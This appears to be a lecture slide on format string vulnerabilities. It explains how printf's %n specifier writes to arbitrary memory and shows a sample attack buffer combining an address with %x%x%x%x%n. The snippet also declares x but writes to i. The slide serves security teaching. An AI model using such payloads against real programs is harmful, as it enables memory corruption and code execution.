

# Modifying Memory Contents
Similar to the exploit used to print arbitrary memory locations.
Use the %n conversion specifier to modify arbitrary memory location.

int x;
printf(“Hello world!\n%n”,(int *)&i);  /* write number of bytes written to stdout to i */

buffer[]:“\x10\x01\x48\x08%x%x%x%x%n”
printf(buffer)